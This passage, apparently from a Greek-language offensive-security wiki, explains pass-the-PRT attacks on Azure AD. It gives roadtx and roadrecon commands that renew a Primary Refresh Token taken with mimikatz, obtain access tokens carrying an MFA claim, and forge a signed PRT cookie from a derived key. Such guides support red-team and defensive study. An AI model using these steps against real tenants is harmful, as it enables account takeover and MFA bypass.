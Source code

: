 - Ανανεώστε πρώτα το PRT, το οποίο θα αποθηκευτεί στο `roadtx.prt`:
```bash
roadtx prt -a renew --prt <PRT From mimikatz> --prt-sessionkey <clear key from mimikatz>
```
- Τώρα μπορούμε να **ζητήσουμε tokens** χρησιμοποιώντας τον διαδραστικό περιηγητή με `roadtx browserprtauth`. Αν χρησιμοποιήσουμε την εντολή `roadtx describe`, βλέπουμε ότι το access token περιλαμβάνει μια αξίωση MFA επειδή το PRT που χρησιμοποίησα σε αυτή την περίπτωση είχε επίσης μια αξίωση MFA.
```bash
roadtx browserprtauth
roadtx describe < .roadtools_auth
```
<figure><img src="../../../images/image (44).png" alt=""><figcaption></figcaption></figure>

#### Επιλογή 3 - roadrecon χρησιμοποιώντας παραγόμενα κλειδιά

Έχοντας το πλαίσιο και το παραγόμενο κλειδί που εξήχθη από το mimikatz, είναι δυνατόν να χρησιμοποιηθεί το roadrecon για να παραχθεί ένα νέο υπογεγραμμένο cookie με:
```bash
roadrecon auth --prt-cookie <cookie> --prt-context <context> --derives-key <derived key>
```
## Αναφορές

- [https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/)
- [https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/)
- [https://www.youtube.com/watch?v=x609c-MUZ_g](https://www.youtube.com/watch?v=x609c-MUZ_g)

{{#include ../../../banners/hacktricks-training.md}}
